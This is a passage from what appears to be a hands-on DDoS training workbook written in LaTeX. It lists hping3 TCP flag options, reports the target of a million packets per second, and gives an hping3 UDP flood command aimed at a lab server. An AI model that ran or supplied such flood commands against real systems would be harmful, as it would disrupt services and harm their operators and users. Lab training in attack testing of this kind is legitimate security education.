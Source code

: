 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
\begin{alltt}
-L  --setack     set TCP ack
-F  --fin        set FIN flag
-S  --syn        set SYN flag
-R  --rst        set RST flag
-P  --push       set PUSH flag
-A  --ack        set ACK flag
-U  --urg        set URG flag
-X  --xmas       set X unused flag (0x40)
-Y  --ymas       set Y unused flag (0x80)
\end{alltt}





{\bf Solution:}\\
When your team has sent +1 million packets per second into the network, from one or two laptops - you are done.

{\bf Discussion:}\\
If an attacker varies the packets they can be harder to filter out, and the attacks succeed.

\chapter{\faInfoCircle\ UDP flooding NTP, etc. 15min}


{\bf Objective:}\\
Start a webserver attack using UDP flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

This time we will select UDP mode:

\begin{alltt}\footnotesize
-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}\footnotesize
hping3 --flood -2 -p 53 10.0.45.12
\end{alltt}
\end{document}
